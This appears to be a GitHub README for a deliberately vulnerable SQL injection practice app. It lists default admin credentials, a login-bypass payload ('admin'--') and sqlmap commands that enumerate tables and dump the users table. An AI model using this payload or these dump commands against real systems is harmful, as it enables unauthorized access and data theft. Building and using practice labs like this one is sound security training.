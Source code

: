 # SQL-Injection-Lab
SQL Injection Web App For Practices and Learning Purpose

# Requirement
- Python 3.11 or Above
- Laptop
- Internet Connection

# How to Start Server

- Step.1: Type in Cmd `python sql.py`
- Step.2 Open Browser And Type `yourip:5000`
- Step.3 Admin Login Info `admin:admin123`
- Step.4 Use Sql Payload `admin'--` any password

# How to Attack Server
- Step.1: Capture Post Response and Create A File `req.txt`
- Step.2 use Sqlmap for find tables `sqlmap --risk=3 --level=5 --tables --batch`
- Step.3 Now final Dump Entire Databse `sqlmap --risk=3 --level=5 -T users --dump --batch`

# Watch Video For More Information.
[![YouTube Video](https://img.youtube.com/vi/GDlxrAV2v2k/0.jpg)](https://www.youtube.com/watch?v=GDlxrAV2v2k)

# Check Out More [Hacking Course](https://linuxndroid.in)

<br>
<p align="center">Made with ❤️ By <a href="https://www.youtube.com/channel/UC2O1Hfg-dDCbUcau5QWGcgg">Linuxndroid</a></p>
